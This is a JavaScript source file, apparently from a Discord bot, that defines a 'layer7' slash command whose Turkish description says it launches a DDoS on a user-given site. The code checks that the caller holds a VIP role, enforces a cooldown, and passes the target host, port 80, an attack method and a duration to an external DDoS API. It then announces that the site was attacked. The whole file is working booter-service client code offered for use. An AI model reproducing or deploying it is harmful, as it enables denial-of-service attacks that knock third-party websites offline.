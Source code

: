const axios = require("axios")
const { roller, sunucuID } = require('../ayarlar')
const atahan = require("../ayarlar")
const discord = require('discord.js')

module.exports = {
    name: "layer7",
    description: "",
    command: new discord.SlashCommandBuilder().setName("layer7").setDescription("Belirtilen siteye DDOS atar.")
    .addStringOption(o => o.setName("host").setDescription("Bir site belirtin.").setRequired(true))
    .addStringOption(o => o.setName("method").setDescription("Bir method belirtin.").addChoices({name:"HTTPCLASS", value:"HTTPCLASS"}).setRequired(true))
    .addNumberOption(o => o.setName("time").setDescription("Bir süre belirtin max (60) VIP için (120).").setRequired(true)),
    usage: "",

    root: false,
    async execute(client, int, reply, log) {



        let host = int.options.getString("host")
        let method = int.options.getString("method")
        let time = int.options.getNumber("time")
        const timeout = client.timeoutddos
        let limit = timeout.get(int.user.id) || 0
        let member = client.guilds.cache.get(sunucuID).members.resolve(int.user.id)
        if(!member) return reply(`discord.gg/oyunalani discordunda olmalisin!`)

        if(limit > 0) return reply(`${limit} saniye boyunca bu komutu kullanamazsin.`)
        if(time <= 0) return reply(`0 dan yuksek bir zaman gir.`)

        if(member.roles.cache.has(roller.vip) === true) {
            if(time > 120) return reply(`Sure sinirini geçtin.`) 
        } else if(member.roles.cache.has(roller.vip) === false) {
           return reply(`Bu komutu kullanmak için vip olmalisin!`)
        }

        log(`${host} ${time} suresi boyunca sitesine DDOS atildi`,`DDOS Atildi`)

let api = axios.get(`${atahan.api.DDOS}host=${host}&port=80&method=${method}&time=${time}`)
let api2 = await api
console.log(api2.data)
await timeout.set(int.user.id, time)
await int.followUp(`${host} sitesine DDOS atildi.`).then(() => {
    setTimeout(() => {
        timeout.set(int.user.id, 0)
    }, time * 1000)
})
}
}